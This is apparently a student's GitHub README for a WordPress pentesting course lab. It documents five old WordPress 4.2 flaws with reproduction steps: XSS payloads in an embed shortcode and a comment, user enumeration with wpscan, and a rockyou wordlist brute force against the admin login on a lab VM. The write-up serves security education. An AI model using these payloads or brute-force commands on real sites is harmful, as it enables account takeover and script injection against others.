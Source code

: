 # Project 7 - WordPress Pentesting

Time spent: **8** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. **(Required) Audio Playlist Cross-Site Scripting**
  - [X] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.7.3
  - [X] GIF Walkthrough:
    - [GIF LINK](https://raw.githubusercontent.com/981014/Week-7-Project-WordPress-vs.-Kali/master/XSS%20Playlist.gif)
  - [X] Steps to recreate: 
    - Download the .mp3 from https://www.securify.nl/advisory/SFY20160742/xss.mp3
    - Upload this audio file to Media Library.
    - Create a post with this audio inside a playlist.
  - [X] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/trunk/src/wp-includes/js/mediaelement/wp-playlist.js)
2. **(Required) Youtube Embedded Cross-Site Scripting**
  - [X] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.7.3
  - [X] GIF Walkthrough:
    - [GIF LINK](https://raw.githubusercontent.com/981014/Week-7-Project-WordPress-vs.-Kali/master/XSS%20Youtube.gif)
  - [X] Steps to recreate:
    - Create a post with the following text: ```[embed src='http://www.youtube.com/embed/sss\x3csvg onload=alert(1)\x3e'][/embed]```
  - [X] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/trunk/src/wp-includes/embed.php)
3. **(Required) Comment Cross-Site Scripting**
  - [X] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [X] GIF Walkthrough:
    - [GIF LINK](https://raw.githubusercontent.com/981014/Week-7-Project-WordPress-vs.-Kali/master/XSS%20Comment.gif)
  - [X] Steps to recreate:
    - Paste the following text in a comment: ```<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>```
    - Make sure the character length is 64kb or more.
  - [X] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/trunk/src/wp-includes/comment.php)
4. **(Optional) User Enumeration**
  - [X] Summary: 
    - Vulnerability types: User Enumeration
    - Tested in version: 4.2
    - Fixed in version: 4.7.3
  - [X] GIF Walkthrough:
    - [GIF LINK](https://github.com/981014/Week-7-Project-WordPress-vs.-Kali/blob/master/Username%20Enumeration.gif)
  - [X] Steps to recreate:
    - Paste the following code to kali-linux terminal: ```wpscan --url wpdistillery.vm --enumerate u```
  - [X] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/trunk/src/wp-login.php)
5. **(Optional) Password Bruteforce Attack**
  - [X] Summary: 
    - Vulnerability types: Bruteforce Attack
    - Tested in version: 4.2
    - Fixed in version: 4.7.3
  - [X] GIF Walkthrough:
    - [GIF LINK](https://github.com/981014/Week-7-Project-WordPress-vs.-Kali/blob/master/Bruteforce%20Password.gif)
  - [X] Steps to recreate:
    - Download the wordlist: ```apt-get install wordlists```
    - Extract the wordlist inside: ```/usr/share/wordlists/```
    - Paste the following code to kali-linux terminal: ```wpscan --url wpdistillery.vm --wordlist /usr/share/wordlists/rockyou.txt --username admin```
  - [X] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/trunk/src/wp-login.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
